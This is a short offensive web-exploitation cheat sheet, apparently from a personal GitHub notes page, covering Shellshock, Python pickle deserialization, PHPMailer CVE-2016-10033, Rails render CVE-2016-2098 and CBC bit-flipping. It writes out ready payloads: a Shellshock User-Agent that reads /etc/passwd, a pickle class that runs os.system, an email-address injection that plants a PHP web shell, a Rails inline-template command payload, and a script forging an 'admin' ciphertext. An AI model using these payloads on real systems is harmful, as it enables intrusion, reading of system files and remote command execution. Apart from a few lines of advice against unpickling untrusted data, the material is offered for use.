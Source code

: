 # Exploit shellshock

declare an empty function (env variable) in a header (user-agent) and append a command

User-Agent: () { :;};echo;$(</etc/passwd)

Exploit pickle serialization

- Serialisation: object -> data(string)
- Deseralisation: data(string)-> object
- Ruby-Yaml: code dependent
- Python-Pickle: automatic
- PHP-Unserialize: code dependent
- Java-XMLDecoder: automatic
is possible to construct malicious data that will execute arbitrary code during unpickling, never unpickle data that could have come from an unstrusted source, or that could have been tampered with
Consider signing data with hmac if you need validation
Json may be more appropriate if you are processing untrusted data.

Ex:
```python
#The method __reduce__ tells python how to pickle an object
class Blah(object):
	def __reduce__(self):
		return (os.system,("command",))

print pickle.dumps(Blah()) #pyton2
print pickle.dumps(Blah(),2) #python3
```

you need to pickle the object in the same platform

# CVE-2016-10033
The exploitation happens in phpmailer, this issue is done in two steps:

-   Create a file with a PHP extension in the web root of the server.
-   Access the newly created file.

To create the file, you can inject some extra-arguments to the command as part of the email address:

"attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php  root"@127.0.0.1

This will allow us to create the file `/var/www/shell.php`. To get code execution, we also need to inject a web shell in the email's body:

<?php system($_GET['c']);?>

Finally, you need to access your web shell to execute commands using the `c` parameter.

# CVE-2016-2098

This issue comes from the usage of the `render` method on user-supplied data. The following code illustrates the problem:

class TestController < ApplicationController
  def show
    render params[:id]
  end
end

The method `render` is usually used to render a page from a template like in the following code:

Instead of sending a simple parameter `id=test`, you can build your request to send a hash: `id[inline]=RUBYTEMPLATE`. To gain code execution, you just need to find the right value for `RUBYTEMPLATE` to exec commands. Here you will need to be extra careful with the encoding to get it to work.

PAYLOAD: url/pages?id[inline]=<%25%3D`id`%25>

# Cypher block chaining CBC

```python
from base64 import urlsafe_b64decode, urlsafe_b64encode

from Crypto.Util.Padding import pad

  

def xor(a,b):

    return bytes(x^y for x,y in zip(a,b))

  

ct=urlsafe_b64decode('JYpmSnQT1yCZ0bRwfkCg76dfa9IfR13P')

pt=pad(b'jesus',16)

  

iv=ct[:16]

c1=ct[16:]

  

b1=xor(pt,iv)

pt2=pad(b'admin',16)

iv2=xor(pt2,b1)

ct2=iv2+c1

print(urlsafe_b64encode(ct2))
```

